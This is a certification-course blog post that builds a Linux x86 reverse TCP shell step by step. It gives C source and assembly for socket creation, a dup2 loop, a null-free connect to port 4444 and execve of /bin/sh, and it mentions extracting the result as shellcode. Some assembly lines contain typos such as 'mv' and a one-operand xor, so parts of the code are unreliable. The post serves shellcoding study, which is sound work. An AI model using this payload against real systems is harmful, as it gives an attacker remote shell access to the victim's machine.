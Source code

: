 ```yaml
---
layout: single
title: "SLAE: Custom TCP Reverse shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-17
header:
  teaser: #/assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

Student ID: SLAE - 1532


This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload.
**What is the difference between the bind shell we created in our previous post and a reverse shell?**
Simply put, a BIND shell will open a port and start listening, when a connection is established a program (usually sh, bash, PS, cmd etc) and redirect all input and output the incoming connection. 
In a similar fashion a reverse shell will send a program over the wire to a listening port, and redirect all input.

To demonstrate I have made some modifications to my [previous C code](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/bind_tcp_shell.c), which basically consisted of removing the entire bid, listen and accept sections, and added connect:
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int socketfd;
struct sockaddr_in servaddr;

int main() { 
	//Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(AF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

	//Initialize servaddr struct 
    servaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    servaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //connect to remote address
    connect(socketfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

	//Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
}
```

Just from amending the code, I have a pretty good idea on how this is going to go down. Much of the code will be the same as the [previous blog](https://rawrradiomouse.github.io/slae-1/), with the main difference being that we have to consider that some ip addresses may have x00 in them.

* __NR_socketcall	  102
    * SYS_CONNECT	3
* __NR_dup		     41
* __NR_execve		   11


![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value goes in al
* function type goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mv bl, 1     ; we set function to 1, which is the value of socket
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
**IT TOOK ME A LONG TIME TO FIGURE WHY MY SHELL WOULD NOT WORK, it is because as we are sending the connection out and not waiting we need to call dup BEFORE we send the shell down the wire.**
The DUP syscall section is as it was in our bind exercise.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx
    xor eax
loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

As we see from the man page,, the connect syscall follows the same structure as listen. The only difference is that we need to be mindful of nulls in the address - I opted to try and solve this issue by pushing an ip with each octet incremented by 1, only to subract again straight after.

![connect](/assets/images/SLAE_2/2.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ecx, ecx
    mov ecx, 0x02010180 ; push 128.1.1.2 (flipped, so it actually goes on as 2.1.1.128)
    sub ecx, 0x01010101 ; subtract 1.1.1.1
    push ecx ; push our modified address on
    push word 0x5C11 ; push on reversed value of 4444
    push word 0x2 ; push value of AF_INET
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    xor ebx, ebx
    mov bl, 3 ; we set function to 3, which is the value of connect
    xor eax, eax
    mov al, 102
    int 0x80
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
I compiled my code and tested, reverse shell was caught and succesful:
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_2/3.JPG)


It is time to work on our wrapper, I used [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) to extract the shellcode: 
![connect_to_shell](/assets/images/SLAE_2/4.JPG)

I took my original [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) and [edited it](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) to make a reverse shell version.

A per screen below the script is both fool-proof and accurate.
![rev_wrapper.py](/assets/images/SLAE_2/5.JPG)

I tested my shellcode, and hit a brick wall... My shell would send back when compiled in nasm, but not with c!!
This is due to the fact I did not xor out EBX, thsi is very important when running code in c, as we do not know what the register state could end up being.

I perservered with the help from a friend as below, caught my shell sent from shellcode :)
![rev_wrapper.py](/assets/images/SLAE_2/6.JPG)
![rev_wrapper.py](/assets/images/SLAE_2/7.JPG)


